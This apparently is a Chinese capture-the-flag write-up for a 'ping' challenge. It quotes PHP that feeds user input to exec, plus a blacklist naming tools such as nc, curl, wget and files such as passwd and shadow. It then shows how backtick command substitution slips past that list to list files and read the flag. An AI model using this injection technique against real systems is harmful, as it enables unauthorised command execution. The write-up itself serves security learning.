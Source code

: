 ping
===

經過觀察可以看到關鍵的利用點
```php
exec("ping -c 1 \"{$ip}\" 2>&1", $ret);
```

並且有做一些過濾
```php
$blacklist = [
    'flag', 'cat', 'nc', 'sh', 'cp', 'touch', 'mv', 'rm', 'ps', 'top', 'sleep', 'sed',
    'apt', 'yum', 'curl', 'wget', 'perl', 'python', 'zip', 'tar', 'php', 'ruby', 'kill',
    'passwd', 'shadow', 'root',
    'z',
    'dir', 'dd', 'df', 'du', 'free', 'tempfile', 'touch', 'tee', 'sha', 'x64', 'g',
    'xargs', 'PATH',
    '$0', 'proc',
    '/', '&', '|', '>', '<', ';', '"', '\'', '\\', "\n"
];
```

輸入的 input 要小於 15 個字元。

1. 觀察到 `$ip` 並且沒有過濾頓號 `\``，所以可以直接執行系統指令。
2. `ls` 得到 `ping: flag.php`
3. 嘗試讀取 head f*
```
ping: <?php
$flag = 'FLAG{ping_$(capture-the-flag)_UtUbtnvY5F9Hn5dR}';: Name or service not known
```